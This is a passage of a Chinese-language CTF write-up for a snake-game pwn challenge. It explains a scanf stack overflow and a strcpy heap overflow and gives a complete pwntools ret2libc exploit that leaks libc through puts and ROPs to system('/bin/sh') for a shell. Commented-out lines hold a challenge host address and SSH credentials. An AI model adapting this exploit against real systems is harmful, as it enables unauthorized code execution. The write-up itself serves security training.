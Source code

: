 这里有两个点，`(&printf + 17308)`是scanf，这里没有限制长度，栈溢出，下面strcpy复制到heap上，造成heap overflow。

## 利用方法

通过栈溢出就可以完成利用，溢出覆盖返回地址为puts，泄露libc，然后再次返回input name，再次栈溢出rop返回到system

## exp

```python
#utf-8
from pwn import *
context.log_level='debug'
context.terminal = ["/bin/tmux", "sp",'-h']
sh = process('./tanchishe')
#sh = remote('47.104.143.202',25997)
#s = ssh(host='127.0.0.1',user='ctf',password='NUAA2021',port=65500)
#sh = s.process('/home/ctf/tanchishe')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./tanchishe')

sh.recvuntil('Continue...')
sh.send('\n')

sh.recvuntil('Exit')
sh.send('\n')

sh.recvuntil('1 and 9.')
sh.send('9')

sh.recv()
sh.recvuntil(':.......::::::...:::::........::..:::::..::....::\n')
sh.send('\n')


pop_rdi = 0x00000000004030e3
pop_rsi_r15 = 0x00000000004030e1

gdb.attach(sh,'b *0x40160E')
sh.recvuntil('your name: ')
sh.send(b'a'*0xc0 +p64(0xdeadbeef) + p64(0x1f951) + p64(0)*7 + p64(pop_rdi) + p64(elf.got['printf'])+p64(elf.plt['puts']) + p64(0x401502) +b'\n')


sh.recvuntil('\xe0')
libcbase = u64( ( b'\xe0' +  sh.recv(5)).ljust(8,b'\x00') ) - 0x64de0
log.success(hex(libcbase))
#pause()
binsh = libcbase + libc.search('/bin/sh').next()
log.success(hex(binsh))
#gdb.attach(sh,'b *0x401737')
sh.recvuntil('name')
#gdb.attach(sh,'b *0x401737')
#
sh.send(b'a'*0xc0 +p64(0xdeadbeef) + p64(0x1f951) + p64(0)*7 + p64(pop_rdi) + p64(binsh) +p64(0x401757)+p64(elf.plt['system']) + p64(0x401502) +b'\n')
##############in ssh change system to orw

sh.interactive()
#log.success(hex(libcbase))
```
